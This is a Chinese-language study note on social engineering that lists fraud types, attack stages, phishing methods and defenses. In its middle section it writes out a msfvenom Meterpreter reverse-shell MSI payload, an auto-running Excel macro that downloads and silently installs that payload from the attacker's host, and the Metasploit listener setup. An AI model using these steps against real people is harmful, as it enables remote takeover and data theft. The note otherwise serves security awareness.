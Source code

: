 # 社会工程学 （Social Engineering）

### 社会工程学
- 是一种非技术性攻击的攻击技术。
- 通过欺骗、诱骗或操纵个人或组织，以获得机密信息或进行为经授权的行为。
- 利用人类弱点，如紧迫感、好奇心、同情、信任、恐惧、无知、疏忽、贪婪、疲劳等，来获取信息或进入安全措施保护下的系统。
- 欺诈手段：电话诈骗、钓鱼邮件、假冒网站、欺骗等。
- 防范：提高警惕、加强安全意识、限制敏感信息的访问权限、建立身份验证和访问控制措施等。
- 更多信息：https://mp.weixin.qq.com/s/dt2yHvWDIcdpnC3ag5gXsw
  
#### 电信诈骗手段类型
1. 资金窃取 ： 中奖短信、退税、订单异常
2. 身份冒充：冒充亲人、同事、朋友
3. 承接需求：买房、升学、退费、求职
4. 交友诈骗：杀猪盘、酒托
5. 果聊诈骗：诱导下载恶意软件、获取通讯录、录像
6. 投资理财诈骗：高回报投资App、贷款、庞氏骗局（Ponzi schema）
7. 兼职类诈骗: 刷单诈骗、打字诈骗
8. 冒充公检法诈骗：账户有洗黑钱
  
### 攻击流程
1. 收集目标信息：社交网站、社工库、冒充身份获取
2. 伪造身份与目标接触：求职者、同事、维修工
3. 编造谎言迷惑目标 ：发送邮件、连接网络、进入机房
4. 展开攻击 ： 接入网络、控制机器、窃取信息

## 社会工程学案列与工具
### 社会工程学案列
1. 钓鱼邮件
2. 钓鱼网站
3. msfvenom生成msi文件，MSF或CS监听
4. badusb ：U盘里有恶意代码，插入可自动运行
5. 恶意EXP
6. 近源攻击
7. 其他近源攻击手段 ：面试入职、连接公司WiFi、自作钓鱼WiFi （fluxion）,等等。
8. 利用诱惑 ：美女、金钱、送人情
  
#### 钓鱼邮件
- 以获取邮件地址或密码
- 伪造发件人邮件地址：不一定能成功
- 写有吸引力的主题：如账号登入提醒、请求修改密码
- 写又说服力的内容
- 诱导点击或者下载
- 工具：postfix、gophish
  
#### msfvenom生成msi宏文件
- 以获取邮件地址或账号密码
1. msfvenom -p windows/meterpreter/reverse_tcp lhost=192.x.x.x lport=4444 -f msi -o hack.msi
2. 新建excel文件，保存为xlsm
3. 在另一个sheet插入宏表, 第一行里：=EXEC("msiexec /q /I http://192.x.x.x/hack.msi")，并模式修改为:Auto_open,回车，自动运行宏。
4. 第二行：=HALT()
  
#### office宏病毒-MSF监听
1. msfconsole
2. use exploit/multi/handler
3. set payload windows/meterpreter/reverse_tcp
4. set LHOST, LPORT , run
  
#### 钓鱼网站
1. 注册类似域名、伪造子域名
2. 克隆网站
3. 记录用户输入内容
- 工具：setoolkit , https://github.com/trustedsec/social-engineer-toolkit.git
  
### 社会工作学防范  
1. 切勿轻易点击连接和打开文件
2. 身份确认：是这个人吗？
3. 启用多重身份认证
4. 更新杀毒软件
5. 不连接不安全WiFi
6. 社交网站隐藏个人信息
7. 加强员工安全意识和培训
8. 保持警惕
9. 加强安全意识
